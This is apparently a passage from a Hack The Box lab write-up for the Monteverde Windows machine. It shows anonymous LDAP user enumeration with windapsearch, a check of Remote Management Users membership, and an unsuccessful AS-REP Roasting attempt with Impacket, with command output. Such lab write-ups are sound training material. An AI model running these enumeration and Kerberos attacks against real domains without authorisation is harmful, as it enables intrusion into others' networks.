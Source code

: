 ```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/monteverde-windows]
└─$ windapsearch -u "" --dc 10.10.10.172 -m users | grep sAM
sAMAccountName: svc-ata
sAMAccountName: svc-bexec
sAMAccountName: mhope
sAMAccountName: SABatchJobs
sAMAccountName: AAD_987d7f2f57d2
sAMAccountName: Guest
sAMAccountName: svc-netapp
sAMAccountName: dgalanos
sAMAccountName: roleary
sAMAccountName: smorgan
```

We can also check the members of the "Remote Management Users" group. Found the user `mhope` to be a part of the group, which means that we can use WinRM to connect to the machine as this user if we find the credential for it.

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/monteverde-windows]
└─$ windapsearch -u "" --dc 10.10.10.172 -m members -s "Remote Management Users"
[+] Using group: CN=Remote Management Users,CN=Builtin,DC=MEGABANK,DC=LOCAL

dn: CN=Mike Hope,OU=London,OU=MegaBank Users,DC=MEGABANK,DC=LOCAL
cn: Mike Hope
sAMAccountName: mhope
```

#### Shell as mhope
###### Password spraying with usernames
We don't have any other information right now, so there's two option on what we can do. The easier one is to hope that one of the users doesn't require Kerberos pre-authentication, so we can perform AS-REP Roasting. Sadly, none of the users are vulnerable to AS-REP Roasting.

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/monteverde-windows]
└─$ GetNPUsers.py MEGABANK.LOCAL/ -usersfile user.list -dc-ip 10.10.10.172 -request
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

/home/chronopad/.local/bin/GetNPUsers.py:163: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User AAD_987d7f2f57d2 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mhope doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User SABatchJobs doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc-ata doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc-bexec doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc-netapp doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User dgalanos doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User roleary doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User smorgan doesn't have UF_DONT_REQUIRE_PREAUTH set
```
